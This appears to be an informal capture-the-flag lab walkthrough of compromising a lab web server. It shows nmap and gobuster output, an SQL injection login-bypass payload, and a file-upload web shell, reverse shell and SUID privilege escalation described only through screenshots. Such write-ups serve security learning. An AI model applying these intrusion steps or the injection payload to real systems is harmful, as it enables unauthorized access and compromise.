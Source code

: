 hey, it been a while 

let run our nmap scan

```sh
┌──(sec-fortress㉿kali)-[~/PTD/10.150.150.146]                                                     
└─$ nmap --open 10.150.150.146

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 19:20 EDT
Nmap scan report for 10.150.150.146
Host is up (0.15s latency).
Not shown: 717 closed tcp ports (conn-refused), 278 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql   

Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds      

┌──(sec-fortress㉿kali)-[~/PTD/10.150.150.146]                                                     
└─$ nmap -p21,22,80,443,3306 -sCV 10.150.150.146

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 19:27 EDT
Nmap scan report for 10.150.150.146
Host is up (0.24s latency).                  
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp?                          
| fingerprint-strings:                                                                        
|   GenericLines: 
|     220 ProFTPD Server (ProFTPD) [::ffff:10.150.150.146]                                    
|     Invalid command: try being more creative                                                
|_    Invalid command: try being more creative
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                         
|   3072 0f:e0:e4:6d:4b:ec:81:f2:e3:53:7f:eb:f0:8b:d1:c6 (RSA)                                
|   256 2c:20:a9:e1:ca:41:7c:a0:b7:81:77:ad:6b:ba:65:8c (ECDSA)                               
|_  256 70:81:8f:ef:2f:82:cf:52:7c:fb:7e:be:32:93:22:26 (ED25519)
80/tcp   open  http     Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1i PHP/7.4.14 mod_perl/2.0.11 Perl/v5.32.0)                                                                                  
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1i PHP/7.4.14 mod_perl/2.0.11 Perl/v5.32.0
| http-title: FBC Engineering Reviewer System                                                 
|_Requested resource was http://10.150.150.146/reviewer/                  
443/tcp  open  ssl/http Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1i PHP/7.4.14 mod_perl/2.0.11 Perl/v5.32.0)                                                                                  
| http-title: FBC Engineering Reviewer System                                                 
|_Requested resource was https://10.150.150.146/reviewer/                                     
| tls-alpn:
|_  http/1.1                                                                                  
|_ssl-date: TLS randomness does not represent time                                            
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1i PHP/7.4.14 mod_perl/2.0.11 Perl/v5.32.0
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
3306/tcp open  mysql?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94%I=7%D=7/22%Time=64BC6600%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,92,"220\x20ProFTPD\x20Server\x20\(ProFTPD\)\x20\[::ffff:10\.15
SF:0\.150\.146\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20
SF:creative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creat
SF:ive\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 257.47 seconds
```

Let start enumeration, starting with FTP

```bash
┌──(sec-fortress㉿kali)-[~/PTD/10.150.150.146]
└─$ ftp 10.150.150.146   
Connected to 10.150.150.146.
220 ProFTPD Server (ProFTPD) [::ffff:10.150.150.146]
Name (10.150.150.146:sec-fortress): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```

well never expected less, nmap told us so

---

We also found out that `port 80` is open which is HTTP, navigating to the website, we get this:

![](https://i.imgur.com/qwXXjHN.png)

Nothing much even after `viewing-source`, Let perform a directory bruteforce with `gobuster`

```bash
┌──(sec-fortress㉿kali)-[~/PTD/10.150.150.146]
└─$ gobuster dir -u http://10.150.150.146/ -w ~/SecLists-master/Discovery/Web-Content/common.txt -b 401,400,400,501,402,404,403 -x bak,zip,php,PHP,txt,html -t 40 2>/dev/null 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.150.150.146/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /home/sec-fortress/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   402,404,403,401,400,501
[+] User Agent:              gobuster/3.4
[+] Extensions:              txt,html,bak,zip,php,PHP
[+] Timeout:                 10s
===============================================================
2023/07/23 19:05:55 Starting gobuster in directory enumeration mode
===============================================================
/applications.html    (Status: 200) [Size: 3607]
/dashboard            (Status: 301) [Size: 240] [--> http://10.150.150.146/dashboard/]
/favicon.ico          (Status: 200) [Size: 30894]
/img                  (Status: 301) [Size: 234] [--> http://10.150.150.146/img/]
/index.php            (Status: 302) [Size: 0] [--> http://10.150.150.146/reviewer/]
/webalizer            (Status: 301) [Size: 240] [--> http://10.150.150.146/webalizer/]

===============================================================
2023/07/23 19:11:59 Finished
===============================================================
```

- Navigating to /applications.html we have a random page//

![](https://i.imgur.com/1AFmzoA.png)

- Navigating to /dashboard, we get a 301 to /phpinfo.php giving us valuable able information about the web server, we are not meant to be able to view this page, you can know more form [here](https://serverfault.com/questions/194440/security-risks-of-having-public-phpinfo-page)

![](https://i.imgur.com/vlG9zp7.png)

- /Favicon.ico point to an image, nothing much there
- /img gives us an image directory with literally nothing

![](https://i.imgur.com/0jDS1or.png)

- /index.php leads us back to the default home page of the website
- /webalizer leads to a directory with nothing to

![](https://i.imgur.com/4yrCCRn.png)

---
## Change of Plan

Going back to the website i clicked **`Get started`** and was referred to a /login page:

![](https://i.imgur.com/iKANPC7.png)

Nice 😊😇

- [+] Tried default Credentials `admin:admin, admin:password` but none worked.
- [x] Going back to our nmap scan we found a suspicious service `3306/tcp open  mysql?`, then decided to try out SQL injection/
- [x] It worked with the query **`admin' OR 1'='1'--`** and we where presented with a dashboard 

![](https://i.imgur.com/KWTSVS9.png)

- Navigating to the `test bank`, we get FLAG3 and notice that the page is vulnerable to LFU (Local File Upload)

![](https://i.imgur.com/nFS4yao.png)


- We uploaded our shell and fuzz for where the file was stored using gobuster

```bash
┌──(sec-fortress㉿kali)-[~/PTD/10.150.150.146]
└─$ gobuster dir -u http://10.150.150.146/reviewer/system/system/admins/assessments/databank/ -w ~/SecLists-master/Discovery/Web-Content/common.txt -b 401,400,400,501,402,404,403 -x bak,zip,php,PHP,txt,html -t 40 2>/dev/null
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.150.150.146/reviewer/system/system/admins/assessments/databank/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /home/sec-fortress/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   401,400,501,402,404,403
[+] User Agent:              gobuster/3.4
[+] Extensions:              zip,php,PHP,txt,html,bak
[+] Timeout:                 10s
===============================================================
2023/07/23 19:47:47 Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 287] [--> http://10.150.150.146/reviewer/system/system/admins/assessments/databank/files/]

===============================================================
2023/07/23 19:11:59 Finished
===============================================================
```

- Nice, now we have our web shell

![](https://i.imgur.com/0T2EudA.png)

- Time to get a reverse shell

![](https://i.imgur.com/79uXKlU.png)

Now that we have our reverse shell, it is time to escalate priviledges and gain root

***checklist:**

- [ ] Any Kernel exploit 
- [ ] PATH Abuse
- [x] SUID
	- Below is how the exploit took place


![](https://i.imgur.com/yfaxvFB.gif)

Have Fun😊


